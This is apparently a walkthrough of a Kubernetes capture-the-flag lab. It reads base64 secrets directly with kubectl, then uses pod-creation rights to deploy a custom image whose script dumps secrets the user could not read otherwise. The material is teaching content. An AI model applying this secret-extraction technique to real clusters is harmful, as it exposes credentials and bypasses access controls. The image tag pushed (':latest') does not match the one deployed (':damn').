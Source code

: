 # First K8S CTF - Walktrough

## Easy challenge
list namespaces:  
```bash
kubectl get ns

NAME              STATUS   AGE
default           Active   7m40s
easy              Active   7m35s
kube-node-lease   Active   7m41s
kube-public       Active   7m41s
kube-system       Active   7m42s
medium            Active   7m35s
```  

You can see two interesting namespaces: `easy` and `medium`.  
We will start from the easy one.  

List the secrets in the *easy* namespace:  
```bash
kubectl -n easy get secrets

NAME                 TYPE     DATA   AGE
definitelynotaflag   Opaque   1      10m
flag                 Opaque   1      10m
```  

Retrieve the `flag` secret:  
```bash
kubectl get secret flag -n easy -o=jsonpath='{.data.flag}' | base64 --decode

this is not the flag!
```  

We are not lucky, let's try with the other secret:  
```bash
kubectl get secret definitelynotaflag -n easy -o=jsonpath='{.data.flag}' | base64 --decode

CTF{easy-flag-XWgkxvenoWWwj1AY}
```  
Congrats! you solved the easy challenge!  
Too easy you say?  
Don't worry, things are gonna get harder from here 😈  

## Medium challenge

List the secrets in the *medium* namespace:  
```bash
kubectl -n medium get secrets

NAME   TYPE     DATA   AGE
db     Opaque   1      17m
flag   Opaque   1      17m
```  
Retrieve the `flag` secret:  
```bash
kubectl get secret flag -n medium -o=jsonpath='{.data.flag}' | base64 --decode

Error from server (Forbidden): secrets "flag" is forbidden: User "ctf1" cannot get resource "secrets" in API group "" in the namespace "medium"
```  

It seems that we are not allowed to retrieve secrets in this namespace...let's confirm this:  
```bash
kubectl auth can-i get secrets --namespace=medium

no
```  
What a shame!  
Let's try to get all the resources we can in the *medium* namespace:  
```bash
kubectl -n medium get all

NAME                                 READY   STATUS             RESTARTS        AGE
busybox-deployment-6986fcbcb-5fp6n   0/1     CrashLoopBackOff   9 (2m15s ago)   23m
busybox-deployment-6986fcbcb-8rtx5   0/1     CrashLoopBackOff   9 (2m21s ago)   23m
nginx-deployment-6b7f675859-d4nlh    1/1     Running            0               23m
nginx-deployment-6b7f675859-gpqk2    1/1     Running            0               23m
Error from server (Forbidden): replicationcontrollers is forbidden: User "ctf1" cannot list resource "replicationcontrollers" in API group "" in the namespace "medium"
Error from server (Forbidden): services is forbidden: User "ctf1" cannot list resource "services" in API group "" in the namespace "medium"
Error from server (Forbidden): daemonsets.apps is forbidden: User "ctf1" cannot list resource "daemonsets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): deployments.apps is forbidden: User "ctf1" cannot list resource "deployments" in API group "apps" in the namespace "medium"
Error from server (Forbidden): replicasets.apps is forbidden: User "ctf1" cannot list resource "replicasets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): statefulsets.apps is forbidden: User "ctf1" cannot list resource "statefulsets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): horizontalpodautoscalers.autoscaling is forbidden: User "ctf1" cannot list resource "horizontalpodautoscalers" in API group "autoscaling" in the namespace "medium"
Error from server (Forbidden): cronjobs.batch is forbidden: User "ctf1" cannot list resource "cronjobs" in API group "batch" in the namespace "medium"
Error from server (Forbidden): jobs.batch is forbidden: User "ctf1" cannot list resource "jobs" in API group "batch" in the namespace "medium"
```  
It seems that we are able to retrieve the list of pods in this namespace.  

`hint`: try to play around with **kubectl auth can-i** in order to understand what you can do in this namespace.  

After a while, you will discover that you are able to create pods in the *medium* namespace:  
```bash
kubectl auth can-i create pods --namespace=medium

yes
```  

At this point you can attempt to create a pod to that reads and print the secrets for the *medium* namespace.  
Proceed as follow:  
1. Create the following dockerfile  

```dockerfile
FROM alpine:latest
RUN apk --no-cache add curl
RUN curl -LO https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl && \
    chmod +x ./kubectl && \
    mv ./kubectl /usr/local/bin/kubectl

# Set the entrypoint script
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```  
2. Create the following `entrypoint.sh` file  
```bash
#!/bin/sh

# Read and decode the 'flag' secret
flag_secret=$(kubectl get secret flag -n medium -o=jsonpath='{.data.flag}')
decoded_flag=$(echo "$flag_secret" | base64 -d)

# Read and decode the 'db' secret
db_secret=$(kubectl get secret db -n medium -o=jsonpath='{.data.flag}')
decoded_db=$(echo "$db_secret" | base64 -d)

# Output the decoded secrets
echo "Flag Secret: $decoded_flag"
echo "DB Secret: $decoded_db"
```  

3. Build and push the docker image (you a free and disposable public registry like [*ttl.sh*](https://ttl.sh/))
```bash
docker build -t ttl.sh/ctf1:latest . && docker push ttl.sh/ctf1:latest
```  
4. Deploy a pod with that image:  
```bash
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: ctf1-pod
  namespace: medium
spec:
  containers:
  - name: k8sctf1-container
    image: ttl.sh/ctf1:damn
EOF
```  
5. retrieve the list of running podss
```bash
Kubectl -n medium get pods

NAME                                READY   STATUS             RESTARTS        AGE
ctf1-pod                            0/1     Completed          0               1m12s
nginx-deployment-6b7f675859-4pkpk   1/1     Running            0               11m
nginx-deployment-6b7f675859-kvb9c   1/1     Running            0               11m
```  
6. retrieve the logs for that pod
```bash
kubectl -n medium logs ctf1-pod

Flag Secret: this is not the flag!
DB Secret: CTF{medium-flag-zPBBTUPD2mXuZZU3}
```  

Congrats, you pawned the second challenge!  🥳 🎉





